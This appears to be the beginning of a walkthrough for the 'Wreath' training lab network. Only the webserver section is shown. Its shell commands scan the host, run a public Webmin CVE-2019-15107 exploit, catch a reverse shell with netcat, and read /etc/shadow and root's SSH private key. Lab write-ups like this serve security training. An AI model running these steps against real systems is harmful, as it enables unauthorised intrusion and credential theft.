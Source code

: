 # Wreath - Easy

1. [Intro](#intro)
2. [Webserver](#webserver)
3. [Pivoting](#pivoting)
4. [Git Server](#git-server)
5. [Command and Control](#command-and-control)
6. [Personal PC](#personal-pc)
7. [AV Evasion](#av-evasion)
8. [Exfiltration](#exfiltration)
9. [Conclusion](#conclusion)

## Intro

* Given information:

  * 3 machines on the network
  * At least one public facing webserver
  * Self-hosted, internal git server on network
  * PC running on network with antivirus enabled (Windows)
  * Possibly server variant of Windows
  * Windows PC cannot be directly accessed from webserver

## Webserver

```shell
nmap -T4 -p 1-15000 -A -Pn -oX webserver.xml 10.200.81.200

sudo vim /etc/hosts
#add thomaswreath.thm

git clone https://github.com/MuirlandOracle/CVE-2019-15107
#clone exploit repo

cd CVE-2019-15107 && pip3 install -r requirements.txt

./CVE-2019-15107.py 10.200.81.200
#run exploit

#we get shell as root
id

#follow exploit 'shell' command
shell
#submit IP and listening port of attacker machine

nc -nvlp 4444
#we have reverse-shell now

python3 -c 'import pty;pty.spawn("/bin/bash")'

cat /etc/shadow

cat /root/.ssh/id_rsa
#copy contents

#in attacker machine
vim id_rsa
#paste private key

chmod 600 id_rsa
```
